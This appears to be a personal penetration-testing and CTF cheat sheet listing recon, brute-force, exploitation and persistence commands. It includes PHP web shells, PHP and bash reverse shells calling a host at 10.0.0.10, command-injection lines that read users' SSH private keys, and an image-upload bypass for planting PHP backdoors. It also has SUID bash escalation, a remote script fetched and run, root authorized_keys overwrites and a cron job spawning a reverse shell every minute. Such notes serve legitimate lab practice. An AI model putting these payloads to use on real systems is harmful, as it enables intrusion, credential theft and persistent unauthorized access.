 #Most Important
Check hacktricks on any subject. It'll probably have something useful.
Always try default credentials.

#Reconnaissance
https://tio.run/#
sudo nmap -sC -sV -v -p- 10.10.10.10 --min-rate 10000

dirsearch -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u 10.10.10.10
dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.10

grep -r 'looking_for_this' /in/this/directory

#Command Injection
;cat /home/<user>/.ssh/id_rsa to get the SSH key
;cat /home/<user>/.ssh/id.rsa

#Getting Credentials





touch id.rsa 

ssh -i id.rsa user@10.10.10.10

#Getting Remote Command Execution



#File Upload Vulnerability

Open burpsuite, open an image file that only contains the backdoor, capture the request, and then add .php to the end of the file, so it tries uploading as test.jpg.php, test.gif.php

Can also just try uploading an image file that contains only the backdoor, and if a php exec() exists, that might hit it and give us a backdoor.

#PHP Payloads for File Upload Vulnerability

#Command Backdoor
<?php echo passthru($_GET['cmd']); ?>

Use like website.com/index.php?pg=/uploads/image.lol?cmd=ls

#Reverse Shell
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'"); ?>

PHP will only execute on a non-PHP file (ie .jpg) if the .jpg includes a PHP includes. We can try ```touch backdoor.jpg && echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'\"); ?>"```

#Privledge Escalation

sudo -l
chmod +s /bin/bash 
cp /bin/bash /home/user/elevated-shell; chmod +s /home/user/elevated-shell


below to find SUID binaries
find / -perm -4000 2>/dev/null 

#Password Cracking

#John The Ripper

To crack a password-protected zip file, first convert it into a hash that John can read
zip2john file-to-crack.zip > hashed.john
And then call John on it
john -w=/usr/share/wordlists/rockyou.txt hashed.john

To crack a SSH key
ssh2john encrypted-id.rsa > id.rsa.john
john -w=/usr/share/wordlists/rockyou.txt id.rsa.john

#Hydra
hydra -L users.txt -u -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh -s 2222 -V -t 64

#Abusing Certain Services Angle

#WordPress
wpscan -U username --url http://website.com/wordpress -P /usr/share/wordlists/rockyou.txt

If we can grab wordpress admin credentials, we can pretty easily get a shell.

#PostGresSQL
psql -h 10.10.10.10 -u <username> default credentials are postgres and postgres
#Other/Interesting Angles

#Abusing Weird Text
If there's a weird page with only text, try nc into it, like nc 10.10.10.10 7878

#Overriding Weird Port Numbers on Firefox
need to go to about:config, and add the port you want to acess, so it can be overridden

#FTP
ftp 10.10.10.10 

#MySQL
mysql -h 10.10.70.250 -u root -p

#NFS
sudo showmount -e 10.10.10.10
mkdir mnt
sudo mount -t nfs 10.10.10.10:/ ./mnt -o nolock

#Abusing LFI
Grab /etc/passwd to enumerate users.
Then we can try grabbing ssh keys, in /home/<user>/.ssh/id.rsa


#Getting Files to/from Server

python -m http.server 8080

#Improving an improved shell

python3 -c "import pty;pty.spawn('/bin/bash');"

bash -i

#Useful One Liners, and General Persistence

wget 10.10.10.10:8080/kingme.sh && chmod u+x kingme.sh && mkdir /etc/testingdirectory &&  ./kingme.sh - u jtrigg 10.10.10.10 /etc/testingdirectory

echo "bash -i >& /dev/tcp/127.0.0.1/8080 0>&1" > /tmp/backdoor.sh

wget 10.10.10.10:8080/id.pub && cp id2.pub /root/.ssh/authorized_keys/ && rm id.pub

wget 10.10.10.10:8080/id.pub && cp id2.pub /home/<user>/.ssh/authorized_keys/ && id.pub

cp /bin/bash /tmp/magic && chmod +s /tmp/magic

Put the below into a file named backdoor.php, and put it in one of the websites, so you can access the page.
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'"); ?>

crontab -l > mycron && echo "* * * * * bash -i >& /dev/tcp/10.0.0.1/8080 0>&1" >> mycron && crontab mycron && rm mycron

#Neat Links
https://pentestbook.six2dez.com/enumeration/ports
https://www.revshells.com/